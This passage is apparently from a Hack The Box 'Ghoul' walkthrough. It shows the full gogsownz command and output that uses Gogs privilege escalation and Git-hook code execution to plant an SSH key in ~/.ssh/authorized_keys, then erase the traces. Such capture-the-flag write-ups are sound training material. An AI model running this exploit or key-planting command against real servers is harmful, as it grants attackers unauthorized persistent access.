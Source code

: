 Damn. Even using `gogsownz` need some digging into the source code. I've done my homework. Gogs configuration file is at [app.ini](https://gogs.io/docs/advanced/configuration_cheat_sheet) and the default [values](https://github.com/gogs/gogs/blob/master/conf/app.ini) can be found in the Gogs [repository](https://github.com/gogs/gogs).

From the official documentation of Gogs, we know a couple of things:

+ Default running user is `git`
+ SSH home page is `~/.ssh`

As such, we can run `gogsownz` and put in a SSH public we control to `~/.ssh/authorized_keys` like so.

```
# ./gogsownz.py http://172.20.0.150:3000/ -v --cookie-name 'i_like_gogits' --creds 'AogiriTest:test@aogiri123' --rce "echo $(cat ssh/git.pub) >> ~/.ssh/authorized_keys" --cleanup --burp
[i] Starting Gogsownz on: http://172.20.0.150:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916                                      
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will
 need an account.
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[+] Got UserID 2
[+] Repository created sucessfully
[i] Exploiting authenticated PrivEsc...
[+] Uploading admin session as repository file
[+] Uploaded successfully.
[+] Committing the Admin session
[+] Committed sucessfully
[+] Removing Repo evidences
[+] Repo removed sucessfully
[i] Signed in as kaneki, is admin True
[i] Current session cookie: 'b3d8001337'
[+] Got UserID 1
[+] Repository created sucessfully
[+] Setting Git hooks
[+] Git hooks set sucessfully
[+] Fetching last commit...
[+] Got last commit
[+] Triggering the RCE with a new commit
[+] Committed sucessfully
[i] Performed RCE successfully
[i] Waiting 10 seconds before cleaning up...
[+] Removing Repo evidences
[+] Repo removed sucessfully
[i] Done!
```

Awesome. Transfer the private key to `kaneki-pc` and we should be able to gain access to the Gogs server.

<a class="image-popup">
![a2d61c22.png](/assets/images/posts/ghoul-htb-walkthrough/a2d61c22.png)

[1]: https://www.hackthebox.eu/home/machines/profile/187
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu/home/users/profile/8308
[4]: https://www.hackthebox.eu/